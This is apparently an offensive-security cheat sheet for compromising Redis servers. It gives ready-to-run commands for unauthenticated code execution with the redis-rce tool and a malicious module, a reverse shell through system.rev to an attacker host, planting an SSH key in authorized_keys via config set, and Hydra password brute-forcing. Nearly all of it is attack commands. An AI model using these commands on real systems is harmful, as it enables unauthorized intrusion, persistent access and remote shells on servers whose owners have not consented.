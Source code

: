# Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```


## Redis 4.x / 5.x - Unauthenticated Code Execution [linux/redis/redis_replication_cmd_exec]

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```

## Load Module
```
MODULE LOAD /path/to/module.so
system.exec "whoami"
system.rev LHOST LPORT
```
[HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)

## Write to File
```
cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


## Hydra
```
hydra -P /usr/share/wordlists/rockyou.txt redis://192.168.176.166
```
